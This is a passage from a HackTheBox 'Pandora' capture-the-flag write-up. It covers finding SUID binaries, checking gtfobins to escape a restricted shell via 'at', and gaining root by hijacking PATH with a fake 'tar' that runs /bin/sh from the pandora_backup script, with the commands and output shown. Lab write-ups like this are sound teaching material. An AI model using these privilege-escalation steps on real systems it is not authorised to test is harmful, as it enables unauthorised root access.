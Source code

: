 ```bash
`-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at`
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 53040 Jul 14  2021 /usr/bin/chsh
-rwsr-xr-x 1 root root 473576 Jul 23  2021 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 51344 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 22840 May 26  2021 /usr/lib/policykit-1/polkit-agent-helper-1

...[SNIP]...
```

we can see that `at` is kinda poking out and since I forgot to show that we are in restricted environment  
I am going to show it to you now.  
So when we run `sudo -l` to see what can we run as root we get this:  

```bash
matt@pandora:/tmp$ sudo -l
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```

Which is a good indication that we are in restricted environment and with `at`  
being SUID binary we can search on `gtfobins` for some kind of escalation.  
Looking at gtfobins we can see that we can use it to escape restricted environments:  

[![Capture.png](https://i.postimg.cc/K8kQr7wD/Capture.png)](https://postimg.cc/9D2Gc9WD)

# Root

A second command that seemed interesting was: "pandora_backup".  
Indeed a custom script and therefore with potential flaws.
I noticed that the tar command is used to compress files in the root folder.  
But the call to tar does not use the full path, so we will be able to change the $PATH  
for a custom executable allowing us a privilege elevation.  

For that I create a "tar" file in the "tmp" folder,  
then I put the command /bin/sh inside. After adding the permissions  
on the file I can run the script:  

```bash
matt@pandora:/$ `cd /tmp && echo "/bin/sh" > tar && chmod 777 tar`
matt@pandora:/tmp$ `export PATH=/tmp:$PATH`
matt@pandora:/tmp$ `pandora_backup`
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
#
```

And just like this I am finally root:  

```bash
# id
id
uid=0(root) gid=1000(matt) groups=1000(matt)
# whoami
whoami
root
```

Finally after a couple of hours I was able to finish this box.  
In my opinion this was a lot of hard box comapred to the rest of the "easy"  
machines on HackTheBox but I learned alot on it and hoep you did too.  

Thanks for reading! <3
